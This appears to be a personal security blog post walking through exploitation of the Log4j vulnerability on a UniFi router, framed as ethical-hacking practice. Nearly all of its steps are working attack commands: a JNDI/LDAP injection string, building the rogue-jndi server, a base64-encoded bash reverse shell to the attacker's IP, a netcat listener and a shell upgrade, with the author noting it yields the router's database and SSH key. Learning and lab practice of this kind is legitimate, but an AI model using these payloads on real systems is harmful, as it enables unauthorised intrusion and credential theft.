 +++
title = 'Understanding Log4j through Exploitation'
date = 2025-01-22T14:59:57-07:00
draft = false
tags = ["Log4j", "Ethical Hacking"]
categories = ["Penetration Testing"]
+++
# Log4j

It was December 9, 2021. I was working as a Vulnerability Management Consultant working for X-Force Red. Suddenly, it was all hands on deck. A new vulnerability had hit the scene and it was EXPLOSIVE. Log4j was a little logging library that java used and it was in EVERYTHING. All of our clients had it and they were worried. We spent weeks working with each of our POC's (Point of Contact) and helping them identify their vulnerable machines.

It was a nightmare.

A few years on though, I thought it might be fun to learn how to run the exploit myself. I found this writeup from Spocket and tested it with a Unify router and can confirm that this attack works. It's a guaranteed shell on the device, and as they pointed out, a great way of accessing the router's database and subsequent ssh key.

The excellent writeup can be found [here](https:/www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi). 

# Steps of Exploitation:

Step 1: Identify an injectable field. For instance, the unifi router has one in the remember field of the login page.

Step 2: inject the following string into the field 

```
${jndi:ldap://{Tun0 IP Address}/whatever}
```
Step 3: run the following command on your machine to confirm the app is reaching out: 

```
sudo tcpdump -i {interface} port 389
```

Step 4: Make sure you have openjdk and maven installed for exploit kit.
```
sudo apt update
sudo apt install openjdk-11-jdk -y
sudo apt install maven
```

Step 5. Install the rogue-jndi toolkit:
```
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```
Step 6. Craft a payload for the malicious server:
```
echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64
```

Step 7. Launch the malicious server. PRO TIP, REMOVE ANY SPACES IN THE CURLY BRACES OR IT WILL NOT WORK.
```
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"
```
For Example:
```
java -jar target/RogueJndi-1.1.jar --command "bash -c
{echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMzMvNDQ0NCAwPiYxCg==}|{base64,-d}|{bash,-i}" --hostname "10.10.14.33"
```

Step 8. Setup a netcat listener to catch the shell:

```
nc -lvpn 4444
```

Step 9: Set the payload in the app to call to your malicious server's ldap resource:
```
${jndi:ldap://{Your Tun0 IP}:1389/o=tomcat}
```

Step 10: Enjoy your new shell by upgrading it:

```
script /dev/null -c bash
```
